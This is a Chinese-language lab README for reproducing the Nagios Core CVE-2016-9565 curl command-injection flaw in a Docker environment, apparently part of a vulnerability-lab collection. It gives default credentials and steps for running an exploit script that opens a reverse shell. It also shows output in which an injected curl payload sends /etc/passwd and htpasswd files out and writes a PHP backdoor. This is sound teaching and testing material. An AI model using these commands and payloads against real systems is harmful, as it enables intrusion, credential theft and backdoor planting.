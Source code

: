 ## Nagios Core < 4.2.2 代码执行漏洞（CVE-2016-9565）

### 漏洞信息

 * [Nagios Core < 4.2.2 Curl Command Injection/Code Execution](https://legalhackers.com/advisories/Nagios-Exploit-Command-Injection-CVE-2016-9565-2008-4796.html)

Nagios 是一款监控IT基础设施的程序，近日安全研究人员 Dawid Golunski 发现在 Nagios Core 中存在一个代码执行漏洞：攻击者首先伪装成 RSS 订阅源，当受害应用获取 RSS 信息时攻击者将恶意构造的数据传给受害者，程序在处理过程中将恶意数据注入到了 curl 的命令中，进而代码执行。


### 漏洞分析

参考: [Nagios Core 代码执行漏洞（CVE-2016-9565）分析](http://paper.seebug.org/146/)

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
HTTP 基础认证 | nagiosadmin | admin
Web 路径 | /nagios/ | -
Web 物理路径 | /usr/local/nagios/share | -
PoC/Exp 路径 | /nagios/exp.php?url=http://xx.xxx.xxx.xx/ | -

### 获取环境:

 ```
$ docker-compose up -d
 ```

访问: `http://127.0.0.1:8000/nagios/` 出现基础认证框则代表成功

### 使用与利用

#### Exp 使用

> 假定攻击者服务器 IP 地址为：2.2.2.2

1. 在攻击者服务器运行 nagios_cmd_injection.py

 ```
sudo python nagios_cmd_injection.py 2.2.2.3 9999
 ```

 > 2.2.2.3 是攻击者监听反弹 shell 的IP地址，可与RSS地址一样

2. 访问 http://xxxx/nagios/exp.php?url=http://2.2.2.2/

 输入 HTTP 基础认证的账号密码

 > exp.php 是验证漏洞时添加的，真实环境中不存在。注意最后一个 `/`

3. 在攻击者服务器看到如下输出即代表成功 

 ```
 ➜ sudo python nagios_cmd_injection.py 192.168.30.194 8080

 Nagios Core < 4.2.0 Curl Command Injection / Code Execution PoC Exploit
 CVE-2016-9565
 nagios_cmd_injection.py ver. 1.0

 [+] Generating SSL certificate for our python HTTPS web server

 [+] Starting the web server on ports 80 & 443

 [+] Web server ready for connection from Nagios (http://target-svr/nagios/rss-corefeed.php). Time for your dnsspoof magic... ;)

 [+] Received GET request from Nagios server (192.168.30.xxx) ! Sending redirect to inject our curl payload:

 -Fpasswd=@/etc/passwd -Fgroup=@/etc/group -Fhtauth=@/usr/local/nagios/etc/htpasswd.users --trace-ascii /usr/local/nagios/share/nagios-backdoor.php

 [+] Success, curl payload injected! Received data back from the Nagios server 192.168.30.xxx

 [*] Contents of /etc/passwd file from the target:

 root:x:0:0:root:/root:/bin/bash
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
 bin:x:2:2:bin:/bin:/usr/sbin/nologin
 www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
 backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
 nagios:x:999:999::/usr/local/nagios:

 [*] Contents of /usr/local/nagios/etc/htpasswd.users file:

 nagiosadmin:$apr1$c3z3k5K8$lk.GET0vWb.WWJidJt84o1
```

### 参考链接

* [Nagios Core < 4.2.2 Curl Command Injection/Code Execution](https://legalhackers.com/advisories/Nagios-Exploit-Command-Injection-CVE-2016-9565-2008-4796.html)
* [Nagios Core 代码执行漏洞（CVE-2016-9565）分析](http://paper.seebug.org/146/)
